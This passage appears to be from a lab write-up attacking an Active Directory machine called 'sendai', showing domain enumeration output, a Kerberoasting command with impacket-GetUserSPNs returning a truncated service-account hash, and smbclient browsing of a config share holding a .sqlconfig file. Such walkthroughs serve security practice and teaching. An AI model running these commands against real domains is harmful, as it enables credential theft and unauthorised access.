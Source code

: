     INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: dc.sendai.vl
    INFO: Done in 00M 26S

All Kerberoastable Users fastly ;)

![alt text](<../assets/images/1 (2).png>)

### GetUserSPNs

    ➜  sendai impacket-GetUserSPNs -request -dc-ip DC sendai.vl/Elliot.Yates

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    Password:
    ServicePrincipalName  Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
    --------------------  ------  --------  --------------------------  --------------------------  ----------
    MSSQL/dc.sendai.vl    sqlsvc            2023-07-11 05:51:18.413329  2025-01-13 16:47:45.680311             



    [-] CCache file is not found. Skipping...
    $krb5tgs$23$*sqlsvc$SENDAI.VL$sendai.vl/sqlsvc*$de9681aefbd0f6bbd7c4e5cab5c20a8f$5509e7e86324d957519c9b69a5005fca0f5c2245c6d87f7228e573ad416c2f0afe84a33b3.....

but its not crackable.

#### config share

    ➜  sendai smbclient \\\\DC\\config -U Elliot.Yates
    Password for [WORKGROUP\Elliot.Yates]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Mon Jan 13 17:09:35 2025
    ..                                DHS        0  Wed Jul 19 10:11:25 2023
    .sqlconfig                          A       78  Tue Jul 11 08:57:11 2023
